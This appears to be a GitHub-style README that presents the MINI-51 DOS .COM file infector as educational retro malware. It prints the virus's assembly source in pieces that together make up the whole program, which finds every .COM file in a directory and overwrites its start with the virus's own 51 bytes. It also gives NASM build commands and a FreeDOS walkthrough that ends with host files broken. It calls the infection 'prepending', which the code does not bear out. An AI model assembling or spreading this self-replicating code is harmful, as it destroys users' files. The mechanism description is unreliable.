

# MINI-51 Virus (DOS File Infector)

## 📄 Summary

The **MINI-51** virus is a small, real-mode DOS file infector that targets `.COM` files. It operates by locating `.COM` files in the current directory and inserting a 51-byte payload into each file, effectively spreading itself across the directory.

---

## 📍 Origin

- **Name**: MINI-51
- **Type**: Parasitic DOS virus
- **Discovered**: Early DOS-era malware (education/research use only)
- **File Type Targeted**: `.COM`
- **Architecture**: x86 real-mode (runs in DOS)

---

## 🔧 How It Works

- Scans the current directory for `.COM` files.
- Opens each matching file with read/write access.
- Writes a 51-byte copy of its own code into the file.
- Closes the file and repeats the process for all matches.


---


## 🖥️ Requirements

- DOS or FreeDOS environment (e.g., VirtualBox, DOSBox)
- NASM or similar assembler (if rebuilding)
- `.COM` files present in the working directory for infection

---

## 📁 File Info

| File          | Description                                           |
| ------------- | ----------------------------------------------------- |
| `MINI-51.asm` | Assembly source code                                  |
| `MINI-51.com` | Compiled infected payload (optional, not distributed) |

---


## 🧠 Structure

The virus is a simple real-mode COM-style program, starting at memory offset `0100h`, as expected for `.COM` files.

### Assembly Breakdown

---

### 1️⃣ **Find .COM File to Infect**

```asm
MOV DX, OFFSET FILESPEC  ; Set pointer to "*.com"
MOV AH, 4Eh              ; Find first matching file (INT 21h Function 4Eh)
INT 21h                  ; DOS interrupt
JC  DONE                 ; Jump if no match found
```

* Uses `INT 21h / AH=4Eh` to locate the first `.COM` file in the current directory.
* If none are found (`Carry Flag` set), exits.

---

### 2️⃣ **Open First File**

```asm
FIRST_FILE:
MOV DX, 009Eh            ; Pointer to file name (found from previous)
MOV AX, 3D02h            ; Open file for read/write access
INT 21h                  ; DOS function call
JC  NEXT_MATCH           ; If failed, go to next file
```

* Opens the `.COM` file with read/write permissions (`3D02h` in AX).
* If unsuccessful, proceeds to search for the next match.

---

### 3️⃣ **Write Virus Code to File**

```asm
XCHG AX, BX              ; File handle from AX → BX (needed for writing)
MOV DX, 0100h            ; Source buffer (virus payload in memory)
MOV CX, 0033h            ; Number of bytes to write (51 bytes)
MOV AH, 40h              ; Write to file (INT 21h Function 40h)
INT 21h
```

* Writes 51 bytes (0x33) from its own code (starting at offset `0100h`) to the target file.
* This effectively prepends the virus code to the `.COM` file.

---

### 4️⃣ **Close the File**

```asm
MOV AH, 3Eh              ; Close file function
INT 21h
```

* Closes the infected file after writing is complete.

---

### 5️⃣ **Search for More Files**

```asm
NEXT_MATCH:
MOV AH, 4Fh              ; Find next matching file
INT 21h
JNC FIRST_FILE           ; If found, infect next one
```

* Repeats the infection process for all `.COM` files in the directory.

---

### 6️⃣ **Exit**

```asm
DONE:
RET
```

* When all files are processed, returns control to the operating system.

---

### 📂 Data Section

```asm
FILESPEC:
db '*.com'
db 00
```

* This is the string used for file matching: all `.COM` files in the current directory.

---

## 🧪 Technical Summary

| Aspect           | Detail                         |
| ---------------- | ------------------------------ |
| Target OS        | DOS (FreeDOS / MS-DOS)         |
| Infection Target | `.COM` files                   |
| Infection Method | Prepends 51-byte payload       |
| Propagation      | Directory scan                 |
| Size of Payload  | 51 bytes (0x33h)               |
| Persistence      | No. Runs only during execution |

---

## 🔐 Learning Points

* The virus leverages **DOS interrupt services** (`INT 21h`) exclusively — no advanced API calls or stealth.
* It writes **itself** to other files, making it a **self-replicating program**.
* It's an excellent example of **retro malware** suitable for study in **cybersecurity education** or **reverse engineering labs**.

---

## Proof that it work 

first use edit commamnd to write the code in the freedos. you canot copy code hrom host to freedos it does not support this 

but you can use the `VBoxManage` tool like 

```bash
VBoxManage controlvm freedos keyboardputstring "Hello"
```


i have written the code here 

now lets compile it using `nasm` if nasm is not installed use this command to download 

```bash
fdnpkg install nasm
```

to compile use this command 

```bash
nasm virus.asm -f bin -o virus.com
```

bin tells NASM to produce a flat binary output:

- No headers
- No sections
- Just raw bytes


now lets also create host files which virus will attack on

```nasm
org 100h

    mov ah, 9
    mov dx, message
    int 21h

    mov ax, 0x4C00
    int 21h

message db 'You have just released a virus! Have a nice day!$'
```

use this command to compile 

```bash
nasm HOST.asm -f bin -o HOST.com
```


<br>



here you can see that i have created two host com files 


<br> 

no wlets execute the virus


now you can see that after executing the virus the host files are no longer working like they were before 

so lets compare the two files using `comp` command in freedos


boom! we have created our first virus 


